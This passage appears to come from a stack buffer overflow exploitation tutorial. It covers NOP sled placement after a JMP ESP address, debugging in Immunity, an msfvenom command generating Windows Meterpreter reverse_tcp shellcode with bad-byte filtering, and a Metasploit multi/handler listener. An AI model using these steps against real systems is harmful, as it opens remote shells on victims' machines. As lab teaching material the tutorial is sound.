 Now we want to put shellcode there and we want to slide down to execute our shell code, so our NOP sled will go between
our new_eip and our C buffer

also make sure to subtract the length of our nop_sled from our C buffer 

We can test this again if we want to make sure everything still works

restart the program in immunity and set a breakpoint at the jump esp address again using ctrl g to 
jump to the address and then F2 to set the breakpoint

everything works, we can see the jump our eip makes and then with F7 we can see our NOP sled and then the C buffer


So we can move over to craft shellcode with msfvenom

The -f specifies the format, which is python

msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f py 


notice our payload we generated has null bytes, to avoid this use:

-b "\x00" 

also any other bad bytes found could also be specifed like that, example:

-b "\x00\xfe\xb4" 

this basically tells msfvenmom we cant have those in our payload

it is important to know our payload size, which shows 381 bytes, right now since we have used 2003 bytes 
of our 2984 total we have around 980 bytes to use. 


If you ever run into a problem where you dont have enough bytes to use youve gotta do some other tricks (out of the
scope of this tutorial)


just after the NOP sled is where we are gonna place our shellcode

and again make sure to subtract our shellcode from our C buffer


now we have an exploit script that we have built


we can go into msfconsole and use the multi/handler module with the payload set as 
windows/meterpreter/reverse_tcp and run it
